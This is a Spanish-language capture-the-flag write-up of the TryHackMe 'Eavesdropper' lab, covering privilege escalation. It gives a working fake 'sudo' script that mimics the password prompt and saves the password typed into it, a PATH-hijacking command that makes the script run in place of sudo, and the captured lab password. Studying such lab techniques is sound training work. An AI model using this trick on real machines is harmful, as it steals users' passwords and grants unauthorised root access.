







En la maquina `Eavesdropper` tendremos que escalar privilegios  ya que se nos otorgo una id_rsa del usuario frank para poder iniciar sesión. En la escalada de privilegios se trata de simular o engañar a usuario que esta ejecutando un `sudo cat /etc/shadow`, en este contexto nosotros simulamos el binario `sudo` para preguntar la contrseña y asi obtenerla.


Link [Eavesdropper](https://tryhackme.com/room/eavesdropper)

- Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [JohnHammond](https://tryhackme.com/p/JohnHammond) and  [cmnatic](https://tryhackme.com/p/cmnatic) and  [timtaylor](https://tryhackme.com/p/timtaylor) and  [THMDan](https://tryhackme.com/p/THMDan)

## Escalada de privilegios

Para hacer uso la `idrsa.id-rsa` el cual debemos dar permisos con el comando `chmod 600 idrsa.id-rsa`. Ahora iniciamos sesión y debemos de poder iniciar sesión. 

```php
❯ ssh -i idrsa.id-rsa frank@10.10.77.111
```

### Usuario: frank
Iniciamos sesión como el usuario `frank`



Enumerando el procesos veremos que se ejecuta `sudo cat /etc/shadow` cada cierto tiempo



### Path Hijacking

Para obtener una shell como `root` 

```php
frank@workstation:/tmp$ echo $PATH                                                                                                                                                        
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                           
frank@workstation:/tmp$                                                                                                                                                                    
```

Crearemos un archivo  llamado `sudo` en el cual ingresaremos la siguiente :

```php
#!/bin/bash

read -sp  '[sudo] password for frank: ' password
echo $password > /home/frank/pass.txt
```

1. `read -sp '[sudo] password for frank: ' password`: Esta línea utiliza el comando `read` para solicitar al usuario que ingrese una contraseña. Los parámetros `-s` y `-p` se utilizan para mantener la entrada en silencio (para ocultar la entrada de la contraseña) y para mostrar un mensaje de solicitud antes de que el usuario ingrese la contraseña, respectivamente. En este caso, el mensaje de solicitud es `'[sudo] password for frank: '`.
    
2. `$password > /home/frank/pass.txt`: Después de que el usuario ingrese la contraseña, se almacena en el archivo `/home/frank/pass.txt`. El contenido de la variable `$password` se redirige (`>`) al archivo `pass.txt`, lo que significa que el contenido del archivo será la contraseña ingresada por el usuario.

Ahora le debemos dar permisos 

```php
frank@workstation:~$ chmod +x sudo
```



Lo que esta pasando es que al ejecutar `sudo cat /etc/shadow`, se detiene a ingresar la contraseña por la que creamos un script llamado `sudo` que simulara lo que hace el sudo, primero le pediremos al usuario la contraseña con `read -sp '[sudo] password for frank: ' password` y luego la almacenaremos en `/home/frank/pass.txt`. Ahora lo que haremos será secuestrar el PATH

```php
frank@workstation:~$ export  PATH=/home/frank:$PATH
```

- `export`: Este comando se utiliza en shell scripts de Unix y Linux para establecer o modificar el valor de una variable de entorno. En este caso, se utiliza para exportar la variable `PATH` para que esté disponible para los subprocesos del shell actual.
    
- `PATH=/home/frank:$PATH`: Esto asigna un nuevo valor a la variable `PATH`. En lugar de simplemente sobrescribir el valor actual de `PATH`, este comando agrega `/home/frank` al principio del valor existente de `PATH`, seguido de `:` para separar los distintos directorios en la variable `PATH`. `$PATH` se refiere al valor actual de `PATH`, por lo que esta parte asegura que los directorios que ya estaban en `PATH` se mantengan.



Una vez preparado todo saldremos de la sesión logeado y luego  ingresaremos de nuevo y asi obtendremos la contraseña



```php
frank : !@#frankisawesome2022%*
```

Ahora teniendo la contraseña podremos enumerar con `sudo -l` y luego con `sudo su` obtendremos una shell como root 



### Usuario : root




:P